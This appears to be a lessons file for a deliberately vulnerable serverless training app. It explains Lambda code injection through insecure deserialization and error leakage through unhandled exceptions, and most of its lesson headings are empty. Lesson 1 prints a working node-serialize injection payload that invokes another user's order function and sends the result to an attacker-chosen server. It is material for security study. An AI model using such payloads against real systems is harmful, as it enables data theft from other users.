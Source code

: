 # LESSONS

## LESSON #1: Event Injection

### Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.
**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.
Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"A\"+JSON.stringify(d));}); }()", "cart-id":"c127c94b-f41e-4684-8610-b53065020ab4"}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<YOUR_FAVORITE_SERVER>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/)

### Command Injection via S3 bucket

## LESSON #2

## LESSON #3

## LESSON #4

## LESSON #5

## LESSON #6

## LESSON #7

## LESSON #8

## LESSON #9

## LESSON #10: Unhandles Exceptions
The Lmabda that handles the request is a "dumb" function when talking about response message. The function returns back any message that was received from the invoked function. In some cases, sending partial or incorrect data could reveal code or sensitive information if an error is sent back to to the function.

for example, using the partial payload:
```{"action": "get"}```

We will receive an error that reveils vode from the invoked function:
```
{"StatusCode":200,"FunctionError":"Unhandled","ExecutedVersion":"$LATEST","Payload":"{\"stackTrace\": [[\"/var/task/lambda_function.py\", 29, \"lambda_handler\", \"orderId = event[\\\"orderId\\\"]\"]], \"errorType\": \"KeyError\", \"errorMessage\": \"'orderId'\"}"}
```
